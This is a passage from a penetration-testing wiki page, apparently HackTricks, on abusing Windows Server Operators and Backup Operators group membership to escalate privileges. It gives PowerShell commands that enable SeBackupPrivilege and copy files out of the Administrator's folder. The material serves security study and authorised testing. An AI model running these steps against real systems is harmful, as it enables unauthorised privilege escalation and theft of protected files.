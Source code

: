 This confirms that the Server Operators group has [SERVICE\_ALL\_ACCESS](https://docs.microsoft.com/en-us/windows/win32/services/service-security-and-access-rights) access right, which gives us full control over this service.\
You can abuse this service to [**make the service execute arbitrary commands**](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#modify-service-binary-path) and escalate privileges.

## Backup Operators <a href="#backup-operators" id="backup-operators"></a>

As with `Server Operators` membership, we can **access the `DC01` file system** if we belong to `Backup Operators`.

This is because this group grants its **members** the [**`SeBackup`**](../windows-local-privilege-escalation/privilege-escalation-abusing-tokens/#sebackupprivilege-3.1.4) and [**`SeRestore`**](../windows-local-privilege-escalation/privilege-escalation-abusing-tokens/#serestoreprivilege-3.1.5) privileges. The **SeBackupPrivilege** allows us to **traverse any folder and list** the folder contents. This will let us **copy a file from a folder,** even if nothing else is giving you permissions. However, to abuse this permissions to copy a file the flag [**FILE\_FLAG\_BACKUP\_SEMANTICS**](https://docs.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-createfilea) \*\*\*\* must be used. Therefore, special tools are needed.

For this purpose you can use [**these scripts**](https://github.com/giuliano108/SeBackupPrivilege)**.**

Get **members** of the group:

```powershell
Get-NetGroupMember -Identity "Backup Operators" -Recurse
```

### **Local Attack**

```bash
# Import libraries
Import-Module .\SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll
Get-SeBackupPrivilege # ...or whoami /priv | findstr Backup SeBackupPrivilege is disabled

# Enable SeBackupPrivilege
Set-SeBackupPrivilege
Get-SeBackupPrivilege

# List Admin folder for example and steal a file
dir C:\Users\Administrator\
Copy-FileSeBackupPrivilege C:\Users\Administrator\\report.pdf c:\temp\x.pdf -Overwrite
```

### AD Attack

For instance, you can directly access the Domain Controller file system:

